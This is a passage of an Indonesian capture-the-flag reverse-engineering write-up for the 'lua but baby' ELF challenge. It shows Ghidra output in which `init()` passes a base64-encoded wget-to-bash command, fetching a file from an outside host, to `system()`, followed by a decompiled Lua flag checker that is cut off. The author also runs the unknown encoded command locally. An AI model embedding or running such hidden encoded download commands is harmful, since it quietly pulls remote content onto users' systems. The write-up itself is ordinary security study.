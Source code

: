 > lua but baby
>
> Diberikan sebuah ELF file: [main](https://ctf.slashrootctf.id/files/4770ab6c4f75fa4142e05a0fae60fed8/main?token=eyJ1c2VyX2lkIjoxNiwidGVhbV9pZCI6MzIsImZpbGVfaWQiOjIwfQ.Zvg07w.10ejWUi6oVFoMxYAajY2YXtVxxk)

### 5.2. Solve Walkthrough

* Disclaimer dulu, saya gak jago Reverse ya ges, iseng-iseng aja ini.
* Setelah saya coba decompile menggunakan Ghidra, ada something interesting di fungsi `init()`, di mana mengeksekusi command seperti berikut.

{% code title="chall.c" lineNumbers="true" %}
```c
int init(EVP_PKEY_CTX *ctx)

{
  int iVar1;
  char local_408 [1024];
  
  sprintf(local_408,
          "echo d2dldCAtcSAtTyAvdG1wL3V3dSBodHRwczovL2FpbWFyLmlkL2ZsYWcubHVhYw== | base64 -d | bash"
         );
  iVar1 = system(local_408);
  return iVar1;
}
```
{% endcode %}

* Ketika saya coba execute command tersebut di local machine, ada file `uwu` di direktori `/tmp`. Saya coba cek file apakah itu, ternyata merupakan file bytecode dalam bahasa Lua.
* Langsung saja saya decompile bytecode itu dan ini hasilnya.

<pre class="language-lua" data-title="bytecode.lua" data-line-numbers><code class="lang-lua"><strong>    -- filename: 
</strong>    -- version: lua52
    -- line: [0, 0] id: 0
    check_flag = function(r0_1)
    -- line: [1, 45] id: 1
    local r1_1 = {
        0,
        1,
        1,
        1,
        0,
       ... omitted ...,
        0,
        1,
        1,
        1,
        1,
        1,
        0,
        1
    }
    local r2_1 = ""
    for r6_1 = 1, #r0_1, 1 do
        local r8_1 = string.byte(r0_1:sub(r6_1, r6_1))
        for r12_1 = 7, 0, -1 do
        if 2 ^ r12_1 &#x3C;= r8_1 then
            r2_1 = r2_1 .. "1"
            r8_1 = r8_1 - 2 ^ r12_1
        else
            r2_1 = r2_1 .. "0"